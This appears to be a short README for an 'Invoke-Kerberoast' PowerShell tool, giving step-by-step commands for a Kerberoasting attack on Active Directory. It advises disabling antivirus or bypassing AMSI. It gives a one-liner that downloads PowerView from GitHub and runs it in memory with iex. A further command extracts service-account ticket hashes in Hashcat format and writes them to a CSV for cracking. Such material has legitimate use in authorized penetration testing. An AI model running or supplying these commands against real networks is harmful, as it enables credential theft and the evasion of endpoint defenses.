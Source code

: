 # Invoke-Kerberoast
PowerShell script to execute Kerberoasting and export samaccountname and hash to CSV.

> IT IS RECOMMENDED TO DISABLE AV OR BYPASS AMSI

#### Download PowerView into Memory
````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/PowerSploit/dev/Recon/PowerView.ps1');Get-NetDomain;
````

#### Execute Kerberoasting
````
Get-netuser -SPN | Get-DomainSPNTicket -outputformat Hashcat | Select-Object samaccountname,Hash | ConvertTo-Csv -NoTypeInformation | Select-object -skip 1 > kerberoast.csv
````

The resulting `kerberoast.csv` file can then be imported into the Excel from this repository.
